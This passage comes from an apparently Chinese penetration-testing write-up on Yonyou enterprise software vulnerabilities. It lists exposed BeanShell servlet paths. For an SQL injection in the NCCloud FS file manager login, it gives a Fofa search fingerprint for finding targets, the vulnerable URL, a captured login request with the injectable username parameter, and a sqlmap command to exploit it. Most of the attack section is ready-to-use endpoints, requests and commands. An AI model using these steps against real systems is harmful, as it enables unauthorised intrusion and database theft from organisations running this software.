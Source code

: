 ```
http://x.x.x.x/service/~to/bsh.servlet.BshServlet
http://x.x.x.x/service/~uap/bsh.servlet.BshServlet
http://x.x.x.x/service/~uapbd/bsh.servlet.BshServlet
http://x.x.x.x/service/~uapde/bsh.servlet.BshServlet
http://x.x.x.x/service/~uapeai/bsh.servlet.BshServlet
http://x.x.x.x/service/~uapother/bsh.servlet.BshServlet
http://x.x.x.x/service/~uapqe/bsh.servlet.BshServlet
http://x.x.x.x/service/~uapweb/bsh.servlet.BshServlet
http://x.x.x.x/service/~uapws/bsh.servlet.BshServlet
http://x.x.x.x/service/~vrm/bsh.servlet.BshServlet
http://x.x.x.x/service/~yer/bsh.servlet.BshServlet
```

![image-20220420113613160](https://cdn.jsdelivr.net/gh/j2ekim/blog-image/image/image-20220420113613160.png)

### 3.3 用友 `NCCloud FS` 文件管理 `SQL` 注入

用友 `NCCloud FS` 文件管理登录页面对用户名参数没有过滤，存在 `SQL` 注入。

Fofa:

```
"/platform/yonyou-yyy.js"
```

`nccloud` 登录界面：

![image-20220420125901020](https://cdn.jsdelivr.net/gh/j2ekim/blog-image/image/image-20220420125901020.png)

文件服务器管理登录页面：

```
http://x.x.x.x/fs/
```

![image-20220420130019063](https://cdn.jsdelivr.net/gh/j2ekim/blog-image/image/image-20220420130019063.png)

`username`参数存在注入，抓取登录数据包：

```http
GET /fs/console?username=1&password=00PGRLxSTe3VroI21qJNymCrZfPX1UQ4ij0gIWn2Gc4%3D HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://x.x.x.x/fs/
Cookie: JSESSIONID=FFAE8EF48BD3BEF7E94B5449B8F9BA90.server
Upgrade-Insecure-Requests: 1	
```

`sqlmap` 跑注入：

```shell
sqlmap -r text.txt -p username 
```
